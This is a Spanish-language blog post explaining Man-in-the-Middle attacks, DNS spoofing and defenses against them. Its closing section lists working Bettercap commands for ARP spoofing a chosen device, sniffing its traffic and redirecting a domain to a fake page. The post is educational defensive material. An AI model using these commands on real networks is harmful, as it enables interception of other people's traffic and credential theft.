 ```yaml
---
title: "Ataque MitM: Como funciona y como evitarlo"
description: Voy a investigar un poco sobre los ataques Man in the middle (MitM), para entender su funcionamiento y aprender a protegerse
coverImage: /ataque-MitM-como-funciona-como-evitarlo/coverImages.png
date: 17/09/2023
alt: "Ataque MitM: Como funciona y como evitarlo"
---
```

## ¿Que es un ataque MitM?

Según la empresa especializada en seguridad informática [Kaspersky](https://www.kaspersky.es/blog/que-es-un-ataque-man-in-the-middle/648/) este ataque consta de la "captura" de datos privados y/o paquetes de navegación de un tercero colocándose en el medio del trafico entre un cliente y el router. Es decir que el atacante capturaría todo el trafico de un dispositivo especifico dentro de una red para procesarlo y re dirigirlo.

![Diagrama](/ataque-MitM-como-funciona-como-evitarlo/diagrama.png)

## Finalidad, variantes y metodología

Como en prácticamente todos los ataques informáticos, el objetivo es apropiarse de los datos personales de la victima, ya sean credenciales bancarias o acceso a diferentes cuentas como redes sociales.

Una variante a este ataque es Men in the Browser, el cual consiste en interceptar el trafico únicamente del browser a través de la ejecución de algún tipo de malware o extension maliciosa.

Esta clase de ataque suele darse en redes publicas ya que son de fácil acceso o muchas veces la misma red sin contraseña fue creada por el atacante a la espera de que alguien se conecte

![Red Publica](/ataque-MitM-como-funciona-como-evitarlo/freeWifi.png)

Una vez que el atacante identifica a la victima puede interceptar el trafico para descifrarlo ya que mucha información que viaja a través de la red esta cifrada, pero si la web o aplicación a la que accede la victima tiene poca seguridad y los datos viajan en forma de texto plano, estos pueden ser interceptados sin ningún tipo de resistencia.

![Red Publica](/ataque-MitM-como-funciona-como-evitarlo/textPlain.png)

Ahora bien, uno podría pensar que si se usan métodos robustos de cifrado el ataque seria mitigado, pero esto no es así ya que el atacante al tomar la red y los paquetes podría hacer un DNS Spoof, esta practica consiste en tomar las direcciones IP de los DNS de la victima y alterarlos o en otras palabras el atacante podría hacer que al acceder a "www.google.com" se te muestre otra web que no es la oficial.

De esta manera el atacante podría colocarse en la red y redirigir el trafico de una entidad bancaria a una web programada por el con el mismo aspecto pero con los campos de inicio de sesión sin cifrar para ser interceptado o almacenado. Al seguir esta metodología el cliente vería una web exactamente igual a la de siempre pero ademas el dominio de la pagina web seguiría siendo el mismo. no seria tan fácil de detectar como el phishing en donde es evidente la alteración en la URL por ejemplo "www.go0gle.com".

## Como evitarlo

- **·** Evita acceder a paginas sensibles, es decir, Banco, Redes, Exchanges, Mail, etc en redes que sean publicas si es sumamente necesario usar esas apps o paginas sensibles fuera de casa, preferentemente hacelo usando los datos mobiles.

- **·** Las redes publicas son todas aquellas que son de fácil acceso, pese a tener password si la red es de un comercio probablemente la contraseña este a la vista o la hallan compartido muchas veces.

- **·** Genera una contraseña segura en tu red wifi y de ser posible cambiala 1 vez por mes o al menos una vez al año.

- **·** Tene en cuenta que muchos routers actuales tiene un modo guest o invitado, de esta manera podes colocar una contraseña fácil para compartirle a tus amigos y / o familiares sin exponer tu red privada y aprovechando esta funcionalidad podrías poner la red principal como oculta, para que no sea visible por nadie.

- **·** Una buena manera de prevenir este tipo de ataques es acceder al servicio que queramos desde su app, ya que así de minimiza el vector de ataque.

- **·** Siembre que sea posible, configura un 2FA.

- **·** Usa extensiones como HTTPS Everywhere o force TLS.

- **·** Validar que la web tenga un certificado SSL valido, de todas maneras existen maneras de falsificarlo.

- **·** Si sos dev y queres fortalecer un proyecto, aplica todo lo mencionado paro a la inversa. es decir sanitiza forms, validalos, cifralos. Agrega la opción de 2FA y trata de crear un canal seguro a traves de una app.


## Como lo llevan a cabo

A continuation dejo una lista de comandos y herramientas que podes usar en un entorno con Linux para aprender lo sencillo que puede ser caer en este ataque y busques la manera de prevenirlo. No me hago responsable del mal uso de esta información.

Iniciamos la herramienta Bettercap con su comando ```

```
bettercap
```

Vamos a activar el monitoreo de la red con estos dos comandos:

```
ticker on
net.probe on
```

Ahora seleccionaríamos nuestro dispositivo colocando su IP y luego iniciamos el Spoof:

```
set arp.spoof targets [IP]
arp.spoof on
```

Quitamos el modo verbose e iniciamos la interception de paquetes:

```
set net.sniff.verbose false
net.sniff on
```

En este punto veríamos todo el trafico del dispositivo.

Para llevar esto mas allá podríamos instalar apache2 o alojar de manera publica una web y reemplazar los DNS de un dominio especifico en el dispositivo victima por la IP de esa web falsa

Esto se hace con la misma herramienta y siguiendo los mismos pasos. pero luego del `arp.spoof on` iniciamos el ataque DNS:

```
set dns.spoof.domains [dominio a ser reemplazado]
set dns.spoof.adress [IP pagina falsa]
dns.spoof on
```
